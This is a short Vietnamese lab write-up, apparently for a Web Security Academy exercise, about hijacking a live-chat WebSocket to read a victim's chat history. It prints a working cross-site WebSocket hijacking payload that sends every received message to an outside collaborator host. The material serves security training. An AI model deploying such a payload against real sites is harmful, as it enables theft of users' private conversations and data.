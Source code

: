 ![image-20250603164622941](./image/image-20250603164622941.png)

=> xuất hiện 1 url

Khi bấm refresh lại trang live chat, browser gửi một message `ready` đến server, và load lại toàn bộ cuộc trò chuyện

![image-20250603164953371](./image/image-20250603164953371.png)

- Craft payload: 

  ```
  <script>
      var ws = new WebSocket('wss://0a2b00c503b978c680d012d500b500d2.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch('https://o7w4pdhcum3s2gebmcgp4bnj3a91xwll.oastify.com.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
      };
  </script>
  ```
